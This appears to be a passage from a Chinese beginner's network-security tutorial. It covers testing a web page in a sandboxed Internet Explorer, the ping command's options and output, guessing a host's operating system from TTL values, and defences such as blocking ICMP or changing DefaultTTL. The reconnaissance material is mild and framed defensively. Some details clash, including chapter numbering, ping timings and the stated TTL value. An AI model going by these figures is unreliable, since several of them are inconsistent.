



将上面的代码保存为 test.html。我们来看下代码的主要功能。为了让新手更加明白，在这里的浏览器测试只是对浏览器表面的一些操作，当然关于网页防御与测试我们会在以后的篇幅中讲到。好了，空话就不多说了，从代码上面看，该文件的主要功能有：收藏本页、收藏本站、添加收藏等功能。

我们试用 IE 测试吧。在此之前首先要确认一下默认浏览器是否为 IE，不是的话就设置为 IE 浏览器。我们打开 IE 的属性，并切换到“程序”选项卡，勾选“如果 Internet Explorer 不是默认的 Web 浏览器，提示我。”并点击“确定”按钮。我们在非沙盘模式下打开 IE 浏览器，此时它会提示是否将 IE 设置为默认浏览器，直接点击“是”即可，如图9、图10所示。



图9



图10



图11



图12

好了，设置完成之后关闭浏览器。我们打开沙盘，选择“沙盘”选项卡，再选择“DefaultBox（默认沙盘）”，再选择“在沙盘中运行”选项卡，选择“运行网页浏览器”。我们在沙盘模式下打开了浏览器，依次选择“文件”->“打开”-> 选择 test.html，打开我们的测试页面。打开之后我们先看下我们的 IE 收藏夹，如图11所示，只有一个收藏的网址。我们开始测试吧！我们点击网页中的“收藏本站”将其收藏，发现点“添加”按钮之后它弹出了一个“直接恢复”的对话框，如图12所示。这个说明我们在使用沙盘的时候，假若它生成文件的话会有提示的。

举个例子吧，比如我在非沙盘模式下访问 www.muma.com，该站点被黑客放置了木马病毒。当我们进入该站点之后，它会毫无提示地自动下载并运行网页所嵌入的木马程序，从而导致我们的机子中毒。当我们使用了沙盘模式访问该站点之后，沙盘就会弹出一个文件被创建的对话框，并询问是否恢复此文件，如图11所示。在这里可以查看到文件所在的路径，可以初步判断是否为可疑文件。当我们确实需要此文件时可以点击恢复。

## 第三章 常用命令入门

#### 2.1 Ping 命令

经过上两节的学习，我们初步了解到了系统安全平台的基本构建。下一步我们需要掌握并且熟练 CMD 命令。CMD 命令无论对于网站管理员还是黑客来说，都是一个必须要掌握的知识点。下面我就逐步介绍几个实用的 CMD 命令，并附加实例。

##### 2.1.1 Ping

ping 命令是用来检查网络是否通畅或者网络连接速度的命令。使用 ping 可以检查出计算机名与计算机的 IP 地址。ping 命令实质上就是 Windows 95/98/NT 中集成的一个专用于 TCP/IP 协议的探测工具，所以该命令只有在安装了 TCP/IP 协议后才可以使用。一般情况下 Windows 系统是自带 TCP/IP 协议的，关于怎么查询是否已经安装了 TCP/IP 协议，我想大家也能理解了。简单点说，能使用 Ping 命令就证明已经安装了 TCP/IP 协议。

> **知识：**  
> Transmission Control Protocol/Internet Protocol 的简写，中译名为传输控制协议/因特网互联协议，又名网络通讯协议，是 Internet 最基本的协议、国际互联网的基础。由网络层的 IP 协议和传输层的 TCP 协议组成。TCP/IP 定义了电子设备如何连入因特网，以及数据如何在它们之间传输的标准。协议采用了 4 层的层级结构，每一层都调用它的下一层所提供的网络来完成自己的需求。通俗而言：TCP 负责发现传输的问题，一有问题就发出信号，要求重新传输，直到所有数据安全、正确地传输到目的地。而 IP 是给因特网的每一台联网设备规定一个地址。

###### 2.1.1.1 ping 参数介绍

下面说下 ping 的一些使用技巧吧。我们首先需要打开 DOS 命令窗体，在开始菜单中选择“运行”并输入“cmd”就可以打开 DOS 命令窗口了。我们在 DOS 窗口中输入“ping /?”，意思就是获取 ping 的详细参数。如图1所示。

我们获取到的参数为：

```bash
Usage: ping [-t] [-a] [-n count] [-l size] [-f] [-i TTL] [-v TOS]
            [-r count] [-s count] [[-j host-list] | [-k host-list]]
            [-w timeout] target_name
```



```bash
[-k host-list] [-n count] [-l length] [-f] [-i ttl] [-v tos] [-r count] [-s count] [[-j host-list] | [-k host-list]] [-w timeout] target_name
```

下面我就逐个解释参数所代表的意义：

- `-t` 表示 Ping 指定的计算机直到中断。
- `-a` 将地址解析为计算机名。
- `-n count` 发送 count 指定的 ECHO 数据包数。默认值为 4。
- `-l length` 发送包含由 length 指定的数据量的 ECHO 数据包。默认为 32 字节；最大值是 65,527。
- `-f` 在数据包中发送“不要分段”标志。数据包就不会被路由上的网关分段。
- `-i ttl` 将“生存时间”字段设置为 ttl 指定的值。
- `-v tos` 将“服务类型”字段设置为 tos 指定的值。
- `-r count` 在“记录路由”字段中记录传出和返回数据包的路由。count 可以指定最少 1 台，最多 9 台计算机。
- `-s count` 指定 count 指定的跃点数的时间戳。
- `-j computer-list` 利用 computer-list 指定的计算机列表路由数据包。连续计算机可以被中间网关分隔（路由稀疏源），IP 允许的最大数量为 9。
- `-k computer-list` 利用 computer-list 指定的计算机列表路由数据包。连续计算机不能被中间网关分隔（路由严格源），IP 允许的最大数量为 9。
- `-w timeout` 指定超时间隔，单位为毫秒。
- `destination-list` 指定要 ping 的远程计算机。

###### 2.1.1.2 使用实例

刚刚我们讲过，ping 命令可以用来查询远程主机的在线状态或者是否正常使用。我们在 DOS 命令窗体中输入：

```bash
ping www.baidu.com
```

在 DOS 窗体中就出现两种情况，下面我逐个解释：

- 1. 成功 ping 通

则在窗体中回显以下代码：

```text
Pinging www.a.shifen.com [119.75.218.70] with 32 bytes of data:

Reply from 119.75.218.70: bytes=32 time=22ms TTL=47
Reply from 119.75.218.70: bytes=32 time=116ms TTL=47
Reply from 119.75.218.70: bytes=32 time=92ms TTL=47
```

```text
Reply from 119.75.218.70: bytes=32 time=96ms TTL=47

Ping statistics for 119.75.218.70:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 92ms, Maximum = 224ms, Average = 132ms
```

我们可以得出，百度服务器的IP地址是“119.75.218.70”。在这里，bytes是字节，指你向对方发送了一个32字节的数据包，32字节是ping命令默认的；time指的是发送数据和接收数据的时间，当值越小说明网速越快；TTL是TCP/IP协议中的一个值，它可以告诉网络路由器包在网络中的时间是否太长而应被丢弃。我们可以用它来大概判断目标主机所采用的系统，TTL值不同则对应不同系统，如下所示：

```text
TTL=32  Windows 9x/Me
TTL=64  Linux
TTL=128 Windows 200x/XP
TTL=255 Unix
```

为什么这里说只能大概判断呢？因为TTL值是系统默认的，也可以人为修改；有些比较特殊的系统，它会自动定义特殊的TTL值。

## 2、ping出现丢包或被拦截

则在窗体中回显以下代码：

```text
Pinging 192.168.0.2 with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 192.168.0.2:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
```

Request timed out的中文大意就是连接超时。当出现这种情况时，可能只是当时网络流量过大、拥塞的结果，因此我们可以避开这个高峰期再进行ping；也可能是目标主机没有启动，或者防火墙设置了禁ping。

### 2.1.1.3 ping命令的防范

刚刚我们讲到关于丢包现象的分析，现在我们从网管的角度来想，应该怎样才能不让ping命令被黑客利用呢？黑客使用ping命令，无非就是想得到三个信息：

- 第一个：ping域名并得到IP信息（这个无法避免被黑客获取）。
- 第二个：查看目标主机是否在线。
- 第三个：获取TTL值，通过默认TTL值判断系统类型。

我们的防御方式可以划分为两种：

- 第一种：直接禁Ping，使主机直接返回Request timed out.
- 第二种：修改TTL默认值。



- 1. 直接禁ping

关于直接禁Ping，我们可以直接更改防火墙的ICMP设置，就可以禁掉部分ping攻击。首先在开始中打开“控制面板”，找到“Windows防火墙”并打开，如图2所示。点击启用防火墙，并勾选“不允许例外”选项，点确认。此时我们再打开本地连接，可以看到防火墙已经正常启动，如图3所示。再次Ping后发现已经ping不通了，如图4。

当然如果单单靠微软自带的防火墙是不够的，因为微软防火墙太普遍了，有不少程序已经能绕过微软防火墙。我们也可以使用一些第三方软件，如：金山卫士、360安全卫士等等。



> **小知识：**  
> ICMP是（Internet Control Message Protocol）Internet控制报文协议。它是TCP/IP协议簇的一个子协议，用于在IP主机、路由器之间传递控制消息。控制消息是指网络是否通、主机是否可达、路由是否可用等网络本身的消息。这些控制消息虽然并不传输用户数据，但是对于用户数据的传递起着重要作用。



- 2. 伪造TTL

当黑客ping目标主机的时候，会根据TTL值来判断目标主机的操作系统。因此，为了安全起见，我们可以对默认TTL值进行修改。首先在运行窗口中输入“regedit”并点击“确认”运行注册表，打开注册表如图5所示。

选择“HKEY_LOCAL_MACHINE/System/CurrentControlSet/Services/Tcpip/Parameters”，在“Parameters”中找到名称为“DefaultTTL”、类型为“REG_DWORD”的数值。双击弹出编辑窗口，在这里把它切换为十进制，可以看到默认TTL数值40，如图6、图7所示。



